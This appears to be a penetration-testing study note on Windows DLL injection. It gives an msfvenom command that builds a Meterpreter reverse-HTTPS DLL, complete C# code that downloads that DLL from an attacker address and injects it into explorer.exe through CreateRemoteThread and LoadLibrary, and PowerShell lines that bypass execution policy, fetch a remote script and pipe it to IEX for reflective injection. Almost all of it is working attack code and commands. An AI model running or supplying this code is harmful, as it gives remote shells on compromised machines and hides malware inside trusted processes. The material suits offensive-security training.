 - If you need more functionality than just shellcode - for loading an entire DLL

#### Basic - LoadLibrary Method (.exe):

    //writes .DLL to disk
    //tricking a remote process into loading our DLL - shows in ProcessExplorer
    //the DLL must be C/C++ and be Unmanaged - the one I've built so far has been Managed C#
    //our DLL will execute shellcode when DllMain function is called (w/ the DLL_PROCESS_ATTACH reason code)
    //we manually write our DLL file name/path into the remote process memory, then start a thread at the LoadLibrary function location, passing it the memory address we wrote
    //Fetch our DLL via http, save to disk (LoadLibrary only acts on files), then call LoadLibrary
    //compile and execute as x64

    sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f dll -o /var/www/html/met.dll

    using System;
    using System.Diagnostics;
    using System.Net;
    using System.Runtime.InteropServices;
    using System.Text;

    namespace DLLInjection1
    {
        class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)] static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)] static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
            [DllImport("kernel32.dll")] static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
            [DllImport("kernel32.dll")] static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
            [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)] static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
            [DllImport("kernel32.dll", CharSet = CharSet.Auto)] public static extern IntPtr GetModuleHandle(string lpModuleName);
            static void Main(string[] args)
            {
                String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
                String dllName = dir + "\\met.dll";
                WebClient wc = new WebClient();
                wc.DownloadFile("http://192.168.45.224/met.dll", dllName);
                Process[] expProc = Process.GetProcessesByName("explorer");
                int pid = expProc[0].Id;
                IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
                IntPtr outSize;
                Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
                IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
            }
        }
    }

#### Invoke-ReflectivePEInjection.ps1:

    //can reflectively load a DLL/EXE into the PowerShell process, or it can reflectively load a DLL into a remote process

    //sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f dll -o /var/www/html/met.dll

    //Usage:
        powershell -ep bypass
        $bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.224/met.dll'); $procid = (Get-Process -Name explorer).Id
        ##Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
        ##(new-object system.net.WebClient).DownloadString('http://192.168.45.224/Invoke-ReflectivePEInjection.ps1') | IEX
        Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid 
